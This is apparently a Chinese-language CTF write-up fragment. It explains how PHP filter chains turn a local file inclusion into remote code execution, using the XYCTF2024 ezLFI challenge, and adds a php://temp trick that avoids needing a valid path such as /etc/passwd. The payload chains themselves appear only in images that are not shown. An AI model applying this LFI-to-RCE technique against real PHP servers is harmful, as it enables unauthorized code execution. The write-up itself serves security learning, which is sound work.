

参数

- chain：你想注入的PHP链
- rawbase 64：将base64放在最后一次解码之前，这在调试PHP过滤器链时很有用！

例如拿XYCTF2024的ezLFI的题目说一下

## XYCTF2024-ezLFI

```php
<?php include_once($_REQUEST['file']);
```

这里也是有文件包含的函数，直接用脚本生成filter链



然后我们看看这个链子生成的结果是什么



发现代码成功生成并前置了

传进参数中发现成功进行RCE



额外补充一个问题，就是需要有效文件的问题

## php://temp解决有效文件的问题

这个技巧的一个主要问题就是需要一个有效的文件路径，当然，我们可以用已知的/etc/passwd，但是因为PHP包装器允许一个嵌套到另一个，所以我们可以通过使用PHP包装器php：//temp作为整个过滤器链的输入资源，不再需要猜测目标文件系统上的有效路径，这取决于操作系统。



```
root@VM-16-12-ubuntu:/opt/php_filter_chain_RCE/php_filter_chain_generator# php -r "echo require('php://filter/convert.base64-decode/resource=php://temp');""
1
```

至此浅浅的部分就结束了，后面就是深挖从一个编码转向另一个编码的技巧了，这个后面再学吧
